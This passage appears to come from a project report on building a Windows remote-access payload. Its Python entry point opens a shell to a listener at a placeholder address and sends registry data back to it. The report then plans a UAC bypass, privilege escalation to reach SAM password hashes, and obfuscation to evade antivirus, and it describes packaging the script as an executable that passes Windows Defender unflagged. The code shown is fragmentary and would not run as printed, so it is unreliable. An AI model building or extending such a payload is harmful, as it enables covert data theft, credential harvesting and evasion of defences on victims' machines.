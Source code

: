 
Finally, the program enters at line 38.  

```python
if __name__ == "__main__":
	try:
    
    #URL of listener
		url = 'http://xxx.xxx.xxx.xxx'

    #instantiates live socket to communicate with listener
		client = open_shell(url)

    #This returns a directory path containing registry information 
    file_name = two()

    #Sends file back to listener 
    return_results(url, file_name)
    break
```


## 3.5 Possible Addenda

If we were to continue developing this project, we have several additions that we would like to implement:  

   - **Additional Commands**: We could add more capability to our client, perhaps accessing additional information.  
   - **UAC Bypass**: Currently, the User Access Control panel asking if it is ok to edit the regitry pops up and requires the user to confirm our application for it to run. We would like to implement some sort of bypass.  
   - **Privilege Escalation**: We would like to add some solution to escalate the privilege of our script. This would allow us to access the SAM registry information, which could lead to hashed passwords. It should be possible to combine the UAC Bypass with this functionality.
   - **Obfuscation**: We would like to include layered obfuscation to bypass additional virus scanners. This may include encryption, encoding, packing, compressing, and possibly even process injection.
   - **Automation**: Lastly, we would like to fully automate the script. This would allow the program to function without any physical person on the listener's end.  


--- 

\newpage
# 4 Creating an Executable 

An objective of this project was to create a single payload to deliver and place on the victim system. The solution for this problem was to create an executable of our **`client.py`** program.  

In creating the executable, we had to include all of the libraries necessary to run the program, and it had to pass through windows defender without throwing any warnings (Go to section 6.1). In addition, it had to successfully establish the connection with the listener on the attacker machine and run the included scripts without throwing any flags.  
